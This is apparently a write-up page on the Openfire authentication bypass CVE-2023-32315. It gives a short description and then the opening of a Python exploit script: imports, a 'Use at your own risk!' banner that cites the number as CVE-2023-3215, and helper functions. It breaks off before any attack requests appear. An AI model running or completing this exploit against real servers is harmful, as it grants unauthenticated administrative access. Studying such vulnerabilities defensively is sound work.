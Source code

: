 <br/><br/>
![Untitled]({{ '/assets/images/5fd81ba0-b25f-47a3-b030-6dfe8e792a66-export-01f2be3f-3281-4935-800c-fc9873cc220e/5fd81ba0-b25f-47a3-b030-6dfe8e792a66-export-01f2be3f-3281-4935-800c-fc9873cc220e_Untitled_22.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/5fd81ba0-b25f-47a3-b030-6dfe8e792a66-export-01f2be3f-3281-4935-800c-fc9873cc220e/5fd81ba0-b25f-47a3-b030-6dfe8e792a66-export-01f2be3f-3281-4935-800c-fc9873cc220e_Untitled_23.png' | relative_url }})
<br/><br/>
- CVE-2023-32315
<br/><br/>
    This vulnerability lies within the web-based Admin Console, allowing a path traversal attack through the setup environment. This flaw allows unauthenticated users to access restricted pages intended for administrative users
<br/><br/>
    ```python
    import random
    import string
    import argparse
    from concurrent.futures import ThreadPoolExecutor
    import HackRequests
    
    artwork = '''
    
     ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██████╗      ██████╗ ██████╗ ██████╗  ██╗███████╗
    ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗╚════██╗     ╚════██╗╚════██╗╚════██╗███║██╔════╝
    ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝ █████╔╝█████╗█████╔╝ █████╔╝ █████╔╝╚██║███████╗
    ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝  ╚═══██╗╚════╝╚═══██╗██╔═══╝  ╚═══██╗ ██║╚════██║
    ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗██████╔╝     ██████╔╝███████╗██████╔╝ ██║███████║
     ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚═════╝      ╚═════╝ ╚══════╝╚═════╝  ╚═╝╚══════╝
                                                                                                           
    Openfire Console Authentication Bypass Vulnerability (CVE-2023-3215)
    Use at your own risk!
    '''
    
    def generate_random_string(length):
        charset = string.ascii_lowercase + string.digits
        return ''.join(random.choice(charset) for _ in range(length))
    
    def between(string, starting, ending):
        s = string.find(starting)
        if s < 0:
            return ""
        s += len(starting)
        e = string[s:].find(ending)
        if e < 0:
            return ""
        return string[s : s+e]
    
    final_result = []
    